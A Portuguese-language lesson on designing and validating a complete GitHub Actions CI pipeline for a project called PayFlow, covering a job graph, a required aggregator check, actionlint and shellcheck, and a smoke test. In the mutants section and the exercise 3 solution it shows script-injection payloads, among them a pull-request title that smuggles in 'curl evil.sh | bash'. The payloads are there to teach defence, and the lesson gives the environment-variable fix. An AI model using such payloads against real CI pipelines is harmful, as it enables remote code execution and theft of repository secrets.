

# P8.01 — Pipeline completo: build, testes e análise estática

> ⏱️ ~1h30 · 🔵 Pleno · Pré-requisitos: J10.01 e J10.02 (GitHub Actions, cache, segurança do pipeline), J7.08 (Checkstyle/SpotBugs), J7.06 (JaCoCo), P7.08 (chart Helm)

> ⚠️ **Verificação:** **executado** nesta geração (Linux, Docker 29.9.2, `actionlint` 1.7.12, `shellcheck` 0.11.0): os quatro *workflows* de `lab/pipeline-lab/.github/workflows/` passam no `actionlint`; os scripts passam no `shellcheck`; **três "mutantes"** (erros plantados de propósito) foram **reprovados** pelo `actionlint`; o `smoke-test.sh` passa contra um servidor correto e **reprova** contra um errado. **Não executado:** o **GitHub Actions de verdade** (o `gh` do ambiente está logado na conta real do aluno e **nunca** criei repositório, *push* nem PR), o `./mvnw verify` do PayFlow (testes práticos ficam para o fim do treinamento, por decisão do aluno), o `helm lint/template` (sem `helm`). Tempos de execução do pipeline **não foram medidos**: os números do estudo de caso são **dados de exercício**.

## 🎯 Objetivos
Ao final desta aula você consegue:
- **Desenhar** um pipeline como um **grafo** de *jobs* (barato primeiro, caro depois, em paralelo o que for independente) e **explicar** a escolha.
- **Montar** o `ci.yml` do PayFlow com análise estática, testes, dependências, infraestrutura e *chart*, e **um único check obrigatório** (`ci-passed`).
- **Validar** os próprios *workflows* com `actionlint` e os scripts com `shellcheck`, e **provar** que a validação funciona (mutantes).
- **Calcular** o **caminho crítico** de um pipeline e **escolher** o que paralelizar.
- **Ligar** o pipeline às métricas que o mercado usa (DORA).

## 🤔 Por que isso importa
Na J10 você montou um CI que compila e testa. No dia a dia de um time de pleno, o pipeline é **o contrato do time**: o que passa nele pode ir para produção. Um pipeline **lento** vira fila de PRs; um pipeline **frouxo** deixa o erro passar; um pipeline **instável** (falha sem motivo) ensina todo mundo a clicar em "rerun" e **ignorar** o vermelho. Esta aula transforma o CI da J10 em um pipeline completo e **testável**.

## 💡 Intuição (explicação simples)
Uma **linha de montagem** de carros com inspeções. A inspeção barata (a peça tem a medida certa?) fica **no começo**: não adianta pintar uma porta torta. As inspeções caras (teste de colisão) ficam **depois**, mas as que não dependem uma da outra rodam **ao mesmo tempo** em estações paralelas. No fim, **um fiscal** confere o painel: "todas as estações aprovaram?" Só então o carro sai.

## 🔬 Como funciona por dentro

### O pipeline do PayFlow como grafo


Cinco regras de desenho:

1. **Falhe rápido.** O Checkstyle roda na fase `validate` do Maven (J7.08): reprova em **segundos**, antes de compilar. Um erro de estilo não deve custar 8 minutos de teste.
2. **Paralelo o que é independente.** Os cinco *jobs* não dependem um do outro, então o tempo total é o do **mais lento** (o **caminho crítico**), não a soma.
3. **Um check obrigatório só.** A regra de proteção da branch (`main`) exige o *job* `ci-passed`; ao acrescentar um *job* novo, você muda **o workflow**, não a configuração do repositório. Há um detalhe que pega: segundo a [documentação](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-protected-branches/about-protected-branches), um check obrigatório precisa ter status **bem-sucedido, ignorado (*skipped*) ou neutro**. **Um *job* pulado conta como aprovado.** Por isso o `ci-passed` roda com `if: always()` e **recusa tudo que não seja `success`** (inclusive `skipped` e `cancelled`).
4. **O pipeline é código revisado.** O `actionlint` (e o `shellcheck` nos `run:`) lê o *workflow* como um compilador lê código: erro de sintaxe, de `needs`, de expressão `${{ }}` e injeção de comando.
5. **Reuso por `workflow_call`.** O `release.yml` **chama** o `ci.yml` (`uses: ./.github/workflows/ci.yml`): o que vai para produção passou **exatamente** pelo mesmo portão.

### O que cada estação pega (e não pega)
| Estação | Pega | Não pega |
|---|---|---|
| Checkstyle (`validate`) | estilo, imports, formatação | bug de lógica |
| SpotBugs (`verify`) | padrões de bug no *bytecode* (J7.08) | regra de negócio |
| Testes + JaCoCo | comportamento; cobertura mínima (J7.06) | cobertura alta ≠ teste bom (J7.06) |
| `dependencies` (Trivy `fs`) | CVE conhecido em dependência | CVE ainda não publicado |
| `iac` | formato, validade e **má configuração** do Terraform | se a nuvem aceita (só o `plan`/`apply` provam) |
| `chart` | *chart* que não renderiza, YAML perigoso | se o cluster aceita (só `--dry-run=server` prova) |

## 🛠️ Exemplo prático

### O `ci.yml` (trechos; o arquivo inteiro está em `lab/pipeline-lab/.github/workflows/ci.yml`)
```yaml
env:
  # Fixado por DIGEST: uma tag pode ser movida, um digest não (P8.02).
  TRIVY_IMAGE: ghcr.io/aquasecurity/trivy:0.76.2@sha256:8f6bb947dbc528902e11f2f5be52f7b519f6a39d5d148f41166f2040499768fb

jobs:
  static:
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with: {persist-credentials: false}
      - uses: actions/setup-java@77dd5b2ce225ea11469928ac317850245a74ae78 # v6.2.0
        with: {distribution: temurin, java-version: '25', cache: maven}
      - name: "Checkstyle (bound to validate: fails in seconds, before compiling)"
        run: ./mvnw -B -ntp validate
      - name: ShellCheck on every script
        run: find scripts deploy -name '*.sh' -print0 | xargs -0 shellcheck --severity=style
      - name: actionlint on the workflows themselves
        run: docker run --rm -v "$PWD":/repo -w /repo rhysd/actionlint:1.7.12 -color

  # ... test, dependencies, iac, chart (ver o arquivo) ...

  ci-passed:
    name: ci-passed
    if: ${{ always() }}
    needs: [static, test, dependencies, iac, chart]
    runs-on: ubuntu-24.04
    steps:
      - name: Every job must have succeeded (skipped and cancelled count as failure)
        env:
          RESULTS: ${{ join(needs.*.result, ' ') }}
        run: |
          for r in $RESULTS; do
            [ "$r" = "success" ] || { echo "::error::a required job finished as '$r'"; exit 1; }
          done
```
Dois cuidados de segurança que já vieram da J10.02 e **continuam valendo**: `permissions: contents: read` no topo (o `GITHUB_TOKEN` só lê) e **ações fixadas por SHA** (com o número da versão em comentário). Os SHAs novos desta aula (`hashicorp/setup-terraform` v4.0.1, `azure/setup-helm` v5.1.0, `actions/attest` v4.2.2, `actions/download-artifact` v8.0.2) foram lidos com `git ls-remote --tags` **nesta execução**.

### Validar o pipeline: `actionlint` e `shellcheck` (executado)
```bash
cd lab/pipeline-lab
docker run --rm -v "$PWD":/repo -w /repo rhysd/actionlint:1.7.12 -color=false .github/workflows/*.yml
echo "actionlint exit=$?"
docker run --rm -v "$PWD":/mnt koalaman/shellcheck:stable --severity=style -x scripts/ci/*.sh
```
```
actionlint exit=0
(shellcheck: sem saída, exit 0)
```
Na primeira rodada o `actionlint` **reprovou meus próprios arquivos**: três nomes de *step* com `:` no meio (`name: Plan (saved: apply will use ...)`) não eram YAML válido. A correção é aspas. **Um pipeline que ninguém roda localmente só revela o erro no push**: o `actionlint` o revela antes.

> ℹ️ O `actionlint` procura o "projeto" subindo até achar um `.git`. Fora de um repositório Git (como no laboratório), **passe os arquivos explicitamente** (`.github/workflows/*.yml`); no repositório do PayFlow isso não é necessário.

### Provar que a validação funciona (mutantes, executado)
Um verificador que **nunca falhou** não prova nada. Plantei três erros numa cópia dos *workflows*:
```
ci.yml:79:23: "github.head_ref" is potentially untrusted. avoid using it directly in inline scripts. instead, pass it through an environment variable. ...
    79 |         run: echo ${{ github.head_ref }} | bash
ci.yml:119:3: job "ci-passed" needs job "chrat" which does not exist in this workflow [job-needs]
release.yml:30:16: property "nope" is not defined in object type {meta: {conclusion: string; outcome: string; outputs: {string => string}}; ...
```
Os três foram pegos: **injeção de comando** pelo nome da branch (`github.head_ref` é controlado por quem abre o PR), **erro de digitação em `needs`** e **referência a um *step* que não existe**. (Compare com a J10.02: lá a regra era "passe por variável de ambiente"; agora há uma máquina que a **cobra**.)

### O *smoke test* (executado)
O `scripts/ci/smoke-test.sh` é a última linha de defesa **depois** do deploy (P8.03). Ele prova quatro coisas em segundos pela **entrada pública**: a aplicação responde; a cadeia de segurança está ligada (sem token = `401`); o erro devolve o `X-Request-Id` (decisão 38); a **porta de gestão não é pública** (decisão 138). Rodado contra dois `nginx` (um "correto", um "com segurança desligada"):
```
smoke test: http://127.0.0.1:5091          smoke test: http://127.0.0.1:5092
  ok   protected API without token -> 401     FAIL protected API without token -> 200 (expected 401)
  ok   management port is not published -> 404  FAIL management port is not published -> 200 (expected 404)
  ok   no internal route -> 404               ok   no internal route -> 404
  ok   X-Request-Id echoed                    FAIL X-Request-Id not echoed (got '')
exit=0                                       exit=1
```

## 🏗️ Estudo de caso: o pipeline de 18 minutos
> **Dados de exercício** (não medidos): o time do PayFlow reclama que cada PR leva **18 min**. O pipeline antigo era **sequencial**: `static` 1 min → `test` 9 min → `dependencies` 2 min → `iac` 2 min → `chart` 1 min → *deploy de preview* 3 min.

**Diagnóstico.** Some os tempos: 1 + 9 + 2 + 2 + 1 + 3 = **18 min**. Mas só o `test` (9 min) e o *preview* (3 min, que **precisa** do `test`) estão no **caminho crítico**; `static`, `dependencies`, `iac` e `chart` **não dependem** de ninguém.

**Opções:**
| Opção | Efeito | Custo |
|---|---|---|
| A. Paralelizar os 4 independentes | 9 (test) + 3 (preview) = **12 min** | zero; só reorganizar `needs` |
| B. A + dividir o `test` em 3 fatias (unitários × integração × arquitetura) | ~3 + 5 = **~8 min** | mais minutos de máquina; testes precisam ser **independentes** |
| C. A + cache do `~/.m2` e do banco do Testcontainers | −1 a −2 min | chave de cache errada = erro difícil |

**Decisão (formato ADR, resumido):** adotar **A** hoje (grátis); **medir** onde o `test` gasta tempo (`surefire-reports`) **antes** de dividir (B). *Consequência aceita:* os 4 *jobs* paralelos gastam mais **minutos de máquina** (que custam dinheiro em repositório privado). **Não** ofereça a fatia B sem medir: dividir um teste que gasta 7 de 9 min em **um** arquivo não ganha nada.

## ⚖️ Trade-offs e quando NÃO usar
- **Tudo em um *job*** é mais simples (um cache, um *checkout*) e **mais lento** (serial). Dividir só compensa quando os *jobs* levam tempo parecido.
- **Muitos *jobs* pequenos** repetem o *checkout* e o *setup* (~20–40 s cada, **a medir**) e esgotam a **concorrência** da conta. Agrupe o que leva segundos.
- **Check obrigatório por *job*** parece mais claro, mas **trava** a mudança: renomear um *job* quebra a regra de proteção e ninguém consegue fazer *merge*. O agregador evita isso.
- **`cancel-in-progress` em PR** economiza (o commit novo substitui o antigo); em `main` **nunca** (cancelaria um *release*).
- **Pipeline rápido demais para ser verdade:** se o JaCoCo não reprova abaixo do mínimo, ou o `ci-passed` aceita `skipped`, o pipeline **parece** verde e **não protege**.

## ⚠️ Erros comuns e boas práticas de produção
- **`if:` no *job* obrigatório.** Um *job* pulado conta como aprovado (acima). Sempre um agregador com `if: always()`.
- **`pull_request_target` com `checkout` do código do PR** dá ao código **não confiável** acesso a segredos. Para PRs de *forks*, use `pull_request` (sem segredos).
- **`ubuntu-latest`** muda de versão sem você pedir: o pipeline quebra num dia aleatório. Fixe (`ubuntu-24.04`).
- **Testes instáveis (*flaky*).** Regra do time: um teste instável é **bug**, vai para uma lista, tem dono e prazo; **"rerun até passar" não é correção**. Cada *rerun* gasta o tempo de todos.
- **Cache envenenado:** a chave de cache do Maven é o *hash* dos `pom.xml` (J10.01); chave fixa ("maven") mantém dependência velha para sempre.
- **Segredo no log.** `set -x` num `run:` que usa token imprime o token. O GitHub mascara segredos **conhecidos**, não o que você montou por concatenação.
- **Erro real que você vai ver** ao esquecer o agregador: o PR fica "Expected — Waiting for status to be reported" para sempre, porque a regra exige um check chamado `ci-passed` e o *job* foi renomeado.

## 🧩 Exercícios
1. **Fixação.** Por que o `ci-passed` precisa de `if: always()` e de recusar `skipped`? *Dica:* releia a regra dos checks obrigatórios.
2. **Aplicação no PayFlow.** Acrescente o `ci.yml` desta aula ao repositório e proteja a `main`.
   - [ ] `actionlint` e `shellcheck` passam localmente (comandos acima).
   - [ ] A regra de proteção da `main` exige **apenas** `ci-passed`.
   - [ ] Abra um PR **com erro de estilo**: o `static` reprova em segundos e o `ci-passed` fica vermelho.
   - [ ] Abra um PR em que um *job* é **pulado** por `if:` (simule): o `ci-passed` **continua vermelho**.
   - [ ] Meça o **caminho crítico** real (tempo de cada *job* na página da execução) e anote em `docs/pipeline.md`.
3. **Desafio.** Escreva um **mutante a mais**: um `run:` com `${{ github.event.pull_request.title }}` e confirme que o `actionlint` o reprova.

<details><summary>Solução do exercício 1</summary>

Porque o GitHub trata *skipped* como sucesso para checks obrigatórios. Se `test` falhar, o `ci-passed` (que depende dele) **não roda** (fica *skipped*) **a menos que** use `if: always()`; e, rodando, ele precisa **olhar** `needs.*.result` e falhar para qualquer valor ≠ `success`. Sem as duas coisas, um PR com teste quebrado **pode ser mesclado**.
</details>

<details><summary>Solução do exercício 3 (pista)</summary>

`run: echo "${{ github.event.pull_request.title }}"` com um título `"; curl evil.sh | bash; "` executa o comando. O `actionlint` avisa que a expressão é "potencialmente não confiável"; a correção é `env: TITLE: ${{ github.event.pull_request.title }}` e `echo "$TITLE"`.
</details>

## 🎤 Na entrevista
- **"Como você deixaria um pipeline mais rápido?"** — *Resposta-modelo:* primeiro **medir** (o caminho crítico, não a soma); depois paralelizar o independente, mover o barato para o início (*fail fast*), cachear dependências com chave por *hash*, e só então dividir testes; e vigiar os testes instáveis.
- **"O que é integração contínua de verdade?"** — Integrar **com frequência** na linha principal, com verificação automática a cada integração ([Fowler](https://martinfowler.com/articles/continuousIntegration.html)); ter um servidor que roda o build **não** basta se a branch vive 3 semanas.
- **"Que métricas mostram se a entrega vai bem?"** — As da **DORA**: vazão (**tempo de entrega da mudança**, **frequência de implantação**, **tempo de recuperação de implantação com falha**) e instabilidade (**taxa de falha de mudança**, **taxa de retrabalho**), segundo o [guia da DORA](https://dora.dev/guides/dora-metrics/).

## 📚 Para ir além
- 📄 [Sintaxe de *workflows* do GitHub Actions](https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions): referência de `needs`, `if`, `concurrency`, `permissions`.
- 📄 [Reutilizando *workflows*](https://docs.github.com/en/actions/sharing-automations/reusing-workflows): `workflow_call`, usado pelo `release.yml`.
- 📄 [Proteção de branches](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-protected-branches/about-protected-branches): a regra sobre checks *skipped*.
- 📄 [Endurecimento de segurança do GitHub Actions](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions): injeção de script, SHAs, `pull_request_target`.
- 💻 [`rhysd/actionlint`](https://github.com/rhysd/actionlint): o verificador usado aqui.
- 📑 [Continuous Integration (Martin Fowler)](https://martinfowler.com/articles/continuousIntegration.html): o que CI realmente exige.
- 📑 [Guia das métricas DORA](https://dora.dev/guides/dora-metrics/): as cinco métricas de entrega.
- 🎥 Nenhum vídeo verificado nesta aula.
- 📚 Livro: *Continuous Delivery* (Humble e Farley), capítulos sobre o *pipeline* de implantação (só pelo título, **de memória**: ⚠️ não verificado).

## ✅ Checklist da aula
- [ ] Desenhei o pipeline como grafo e achei o caminho crítico.
- [ ] O `ci.yml` tem um agregador `ci-passed` que recusa `skipped`.
- [ ] Rodei `actionlint` e `shellcheck` e plantei ao menos um mutante.
- [ ] Sei por que ações são fixadas por SHA e por que `ubuntu-latest` é arriscado.
- [ ] Marquei o que **não** executei (GitHub de verdade, `helm`, `verify` do PayFlow).
